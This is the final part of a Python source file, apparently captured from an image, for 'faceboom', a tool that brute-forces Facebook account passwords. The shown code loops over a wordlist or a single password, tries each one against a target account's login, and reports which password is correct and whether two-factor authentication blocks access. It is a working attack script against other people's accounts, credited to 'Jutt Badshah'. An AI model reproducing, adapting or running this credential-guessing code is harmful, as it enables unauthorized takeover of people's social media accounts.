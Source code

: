         faceboom.banner(target,wordlist,single_passwd)
        loop,passwords = (1,open(wordlist).readlines()) if not single_passwd else ("~",[single_passwd])
        for passwd in passwords:
                passwd = passwd.strip()
                if len(passwd) <6:continue
                write(wi+"["+yl+str(loop)+wi+"] Trying Password[ {"+yl+str(passwd)+wi+"} ]")
                retCode = faceboom.login(target, passwd)
                if retCode:
                    sys.stdout.write(wi+" ==> Login"+gr+" Success\n")
                    print(wi+"========================="+"="*len(passwd)+"======")
                    print(wi+"["+gr+"+"+wi+"] Password [ "+gr+passwd+wi+" ]"+gr+" Is Correct :)")
                    print(wi+"========================="+"="*len(passwd)+"======")
                    if retCode == 2:print(wi+"["+yl+"!"+wi+"]"+yl+" Warning: This account use ("+rd+"2F Authentication"+yl+"):"+rd+" It's Locked"+yl+" !!!")
                    break
                else:
                    sys.stdout.write(yl+" ==> Login"+rd+" Failed\n")
                    loop = loop + 1 if not single_passwd else "~"
        else:
                if single_passwd:
                    print(yl+"\n["+rd+"!"+yl+"] Sorry: "+wi+"The Password[ "+yl+passwd+wi+" ] Is Not Correct"+rd+":("+yl+"!"+wi)
                    print(gr+"["+yl+"!"+gr+"]"+yl+" Please Try Another password or Wordlist "+gr+":)"+wi)
                else:
                    print(yl+"\n["+rd+"!"+yl+"] Sorry: "+wi+"I Can't Find The Correct Password In [ "+yl+wordlist+wi+" ] "+rd+":("+yl+"!"+wi)
                    print(gr+"["+yl+"!"+gr+"]"+yl+" Please Try Another Wordlist. "+gr+":)"+wi)
        sys.exit(1)
   else:
       print(parse.usage)
       sys.exit(1)


if __name__=='__main__':
    Main()


##############################################################
#####################                #########################
#####################   END OF TOOL  #########################
#####################                #########################
##############################################################
#This Tool by Jutt Badshah
#Have a nice day :)
#GoodBye
